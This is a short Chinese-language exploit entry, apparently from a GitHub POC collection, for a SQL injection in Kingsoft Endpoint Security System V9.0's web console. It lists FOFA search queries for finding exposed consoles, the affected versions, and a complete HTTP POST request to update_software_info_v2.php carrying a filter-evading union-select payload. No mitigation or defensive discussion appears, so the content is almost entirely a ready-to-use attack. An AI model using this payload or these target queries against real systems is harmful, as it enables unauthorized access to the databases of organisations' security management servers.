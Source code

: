 ## 金山终端安全系统V9.0 SQL注入漏洞

## fofa查询语法
```
app="金山终端安全系统V9.0Web控制台"
title=="用户登录-金山终端安全系统V9.0Web控制台"
```

## 影响版本
金山终端安全系统 V9.0 < V9.SP1.E1008

## POC
```
POST /inter/update_software_info_v2.php HTTP/1.1 
Content-Type: application/x-www-form-urlencoded 
Host: ip:port
Content-Length: 81

type=--1E0union/**/se#lect-1E0,2,1,user(),5,6,7,8--&key=123&pageCount=1&curPage=1
```

